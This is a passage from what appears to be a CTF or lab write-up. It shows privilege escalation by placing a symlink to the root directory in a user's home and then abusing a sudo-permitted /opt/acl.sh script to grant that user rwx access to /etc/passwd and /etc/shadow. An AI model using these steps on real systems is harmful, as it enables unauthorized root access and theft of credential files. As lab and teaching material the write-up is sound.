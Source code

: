 ```
ln -s / root
```

![](./IMG/55.png)

> Then execute the command from mtz's home directory
> The following 2 tests still failed

```
sudo /opt/acl.sh root 777 /home/mtz/root/etc/passwd
```

![](./IMG/57.png)
```
sudo /opt/acl.sh root rwx /home/mtz/root/etc/passwd
```

![](./IMG/58.png)

> Since I keep tried to set the permission to root user, it will provide several different error 
> Then I change the strategy, I tried to assign the permission to current user - mtz 
> Then ... it success 

```
sudo /opt/acl.sh mtz rwx /home/mtz/root/etc/shadow
```
